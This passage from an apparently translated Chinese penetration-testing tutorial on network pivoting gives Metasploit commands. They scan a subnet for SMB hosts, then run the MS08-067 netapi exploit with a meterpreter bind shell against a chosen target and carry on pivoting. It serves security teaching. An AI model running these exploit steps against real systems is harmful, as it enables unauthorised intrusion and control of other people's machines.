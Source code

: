 ```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.0.0/24
set PORTS 139,445
set THREADS 50
run

```

端口扫描器效率不高，扫描需要一些时间才能完成。您可以选择直接在 metasploit 中使用 Nmap 扫描器。输入`nmap –sP 10.2.0.0/24`。一旦确定了活动系统，对目标进行扫描方法。在我们的示例中，我们的目标位于`10.2.0.149`。

这次扫描的结果示例如下截图所示：

![枢纽](img/477-1_12_21.jpg)

现在我们有一个目标，我们可以使用我们之前介绍的多种方法来攻击它。在这里，我们将看看是否可以利用著名的 MS08-067 服务服务器缓冲区溢出攻击目标。在 metasploit 窗口中，将会话设置为后台，并输入以下命令：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.2.0.149
set PAYLOAD windows/meterpreter/bind_tcp
exploit

```

如果一切顺利，您应该看到机器上打开了一个 shell。当它打开时，输入`ipconfig`查看机器上的网络配置。从这里开始，只是执行我们之前遵循的过程，如果您找到另一台双主机机器，那么您可以进行另一个枢纽并继续。此结果的示例如下屏幕截图所示：

![枢纽](img/477-1_12_22.jpg)